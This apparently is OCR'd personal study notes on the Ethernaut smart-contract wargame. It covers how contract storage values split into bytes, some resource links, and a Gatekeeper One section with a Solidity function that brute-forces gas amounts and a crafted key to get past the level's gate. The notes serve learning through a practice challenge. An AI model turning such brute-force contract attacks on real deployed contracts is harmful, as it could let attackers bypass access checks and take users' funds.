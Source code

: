 
0x     5035551062b14c8b2982d1bd2ecbf387db35e224e52fd8e9ced6eba9f4ebcd5b
2   +  64 Hexadecimal 


0x     50     35    55  …………………………………………….        5b
        1   +  1   +  1	+						+  1
       byte   byte   byte						  byte
 

1 byte = 2 Hexadecimal = 8 bits 






Resources 

->  https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925
->  https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/StorageSlot.sol



Error TypeError: Cannot read properties of undefined (reading 'JsonRpcProvider')  -> use ethers@5.




_______________________________________14_Gatekeeper One____________________________________________________


Notes

1.   try/cath in solidity
    
    Try and catch only work for external calls and contract creation.
    function attack() public  returns (bool)
    {
        for(uint k=1;k <= 8191;k++)
        {
            // try and catch only work for external calls and contract creation.
            try i.enter{gas: 8191*10 + k}(0x000a000000008d4B)
            {
                loop = k;
                return true;
            }
            catch
            {

            }
        }
        return false;
    }

 2.   Do not use JavaScript in this case it was totally waste of time 
      use solidity to save time & gas




3.
